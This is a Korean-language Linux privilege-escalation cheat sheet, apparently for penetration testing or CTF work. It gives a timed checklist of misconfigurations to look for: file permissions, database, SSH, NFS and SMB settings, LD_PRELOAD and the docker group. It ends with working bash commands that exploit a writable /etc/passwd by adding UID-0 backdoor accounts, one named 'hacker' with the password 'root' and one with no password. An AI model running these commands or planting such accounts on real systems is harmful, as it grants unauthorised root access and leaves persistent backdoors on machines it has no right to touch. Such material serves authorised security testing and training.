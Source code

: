 ## 📋 단계별 체크리스트

### Phase 1: 파일 시스템 권한 (2분)

- [ ] **중요 파일 권한**: `/etc/passwd`, `/etc/shadow` 쓰기/읽기 권한
- [ ] **SSH 키 권한**: 개인키 파일들의 권한과 위치
- [ ] **설정 파일 권한**: 서비스 설정파일들의 권한 오류
- [ ] **World-writable**: 모든 사용자가 쓸 수 있는 파일들
- [ ] **그룹 권한**: 특수 그룹 파일들의 접근 권한

### Phase 2: 서비스 설정 오류 (3분)

- [ ] **데이터베이스**: MySQL, PostgreSQL 패스워드 없는 접근
- [ ] **웹 서버**: Apache, Nginx 설정 파일 노출
- [ ] **SSH 설정**: 키 기반 인증, root 로그인 허용
- [ ] **메일 서버**: 설정 파일 접근 권한
- [ ] **DNS 설정**: bind 등 DNS 서버 설정

### Phase 3: 네트워크 서비스 (2분)

- [ ] **NFS**: exports 설정과 no_root_squash 옵션
- [ ] **Samba/SMB**: 익명 접근 및 공유 설정
- [ ] **FTP**: 익명 접근 허용 여부
- [ ] **SNMP**: 기본 커뮤니티 스트링 사용
- [ ] **VNC/RDP**: 패스워드 없는 접근

### Phase 4: 환경 및 라이브러리 (2분)

- [ ] **환경 변수**: LD_PRELOAD, PATH 설정 오류
- [ ] **라이브러리 경로**: 사용자 정의 라이브러리 로드
- [ ] **Python/Perl 경로**: 모듈 하이재킹 가능성
- [ ] **Docker 그룹**: 사용자의 docker 그룹 가입
- [ ] **특수 그룹**: lxd, disk, shadow 등 그룹 가입

## 🎯 발견별 즉시 익스플로잇

### 📝 /etc/passwd 쓰기 권한

```bash
# 1. 권한 확인
ls -la /etc/passwd

# 2. 백업 생성
cp /etc/passwd /tmp/passwd.bak

# 3. root 계정 추가 (패스워드: root)
echo 'hacker:$6$salt$IxDD3jeSOb5eB1CX5LBsqZFVkJdido3OUILO5Ifz5iwMuTS4XMS130MTSuDDl3aCI6WouIL9AjRbLCelDCy.g.:0:0:root:/root:/bin/bash' >> /etc/passwd

# 4. 새 계정으로 로그인
su hacker  # password: root

# 또는 패스워드 없는 root 계정
echo 'roothack::0:0:root:/root:/bin/bash' >> /etc/passwd
su roothack
```
